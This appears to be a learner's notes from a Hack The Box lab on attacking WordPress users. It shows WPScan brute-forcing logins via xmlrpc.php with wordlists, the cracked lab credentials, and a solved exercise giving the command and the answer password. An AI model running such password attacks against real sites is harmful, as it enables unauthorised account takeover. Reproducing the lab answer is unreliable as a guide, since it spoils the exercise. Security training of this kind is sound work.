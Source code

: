 # Attacking WordPress Users

### WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

**WPscan - XMLRPC**

Attacking WordPress Users

```shell-session
AIceBear@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

**Questions**

Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.

```bash
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://94.237.49.166:46908
#[!] Valid Combinations Found:
#| Username: roger, Password: lizard
```
